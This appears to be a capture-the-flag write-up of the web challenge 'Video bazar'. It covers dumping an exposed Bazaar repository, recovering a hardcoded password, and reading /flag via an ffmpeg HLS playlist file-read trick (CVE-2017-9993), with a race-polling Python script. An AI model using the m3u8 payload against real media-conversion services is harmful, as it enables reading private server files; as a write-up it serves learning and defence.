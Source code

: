 # Video bazar (web, 936p, 13 solved)

## Description

In the task we start with a webpage which asks us for some key.
We know that flag is in `/flag`

## Initial analysis

We spent some time trying to figure out how to get the key.
Finally we noticed the task name - maybe they are hinting at bazaar, a rather unpopular git-like VCS?
It was featured last week on another CTF, so it was easier to come by this.

Bingo, we get 403 and not 404 on `/.bzr`

We grab https://github.com/shpik-kr/bzr_dumper and proceed to dump the repository.

## Source code analysis

From the source code of `index.php` we get the password:

```php

<?php

if(isset($_GET['asd'])){
if($_GET['asd']==='THIS_IS_THE_NEW_WAY_TO_DO_STUFF'){
	$a=True;
}else{
	echo 'wroong';
}
}
?>
```

And we can access the file upload feature.
We also have the [uploader source code](upload_file.php).

The important points from this file are:

- We can upload only files with certain extensions `"avi", "mp4", "wma","m3u8"`
- We can convert those files using `ffmpeg` into `'avi','mp4','wav','gif'`
- Filename we provide is ignored and md5 from it is used, so no way to do some command injection
- There is some weird blacklist for the contents of the files we can upload, which is weird considering those are all binary files, except for the last one...
- `ffmpeg` is run with a special parameter `-allowed_extensions ALL`, which according to google is `a private option of the HLS demuxer`, so again playlists
- We have 0.5s to grab the result before it's removed

## ffmpeg CVEs

The fact that we can use playlist files `m3u8`, that there is blacklist for some plaintext values and also weird parameter `-allowed_extensions ALL` all point in one direction -> we need to upload a weird playlist!

We stumbled upon links like https://patchwork.ffmpeg.org/project/ffmpeg/patch/20170603192004.1437-1-michael@niedermayer.cc/ and finally we found CVE-2017-9993 and some articles:

- https://hackmd.io/@calee/Sy3NXynDZ?type=view
- https://www.cnblogs.com/alisecurity/p/7273529.html

From the last one we grab the payload:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/flag
#EXT-X-ENDLIST
```

Apparently the trick is that `ffmpeg` notices the `.txt` and thinks all next entries will be textfiles as well, regardless of their extensions.

We submit a request to convert this into a gif, while runing a script:

```python
def main():
    while True:
        r = requests.get("http://35.211.92.233:8001/upload/output1_624e9e5c339b8f5751b84303f9389fb1.m3u8.gif")
        if r.status_code != 404:
            print(r.status_code)
            print(r.content.encode("hex"))
            open('out.gif', 'wb').write(r.content)
```

And we recover our gif:

![](out.gif)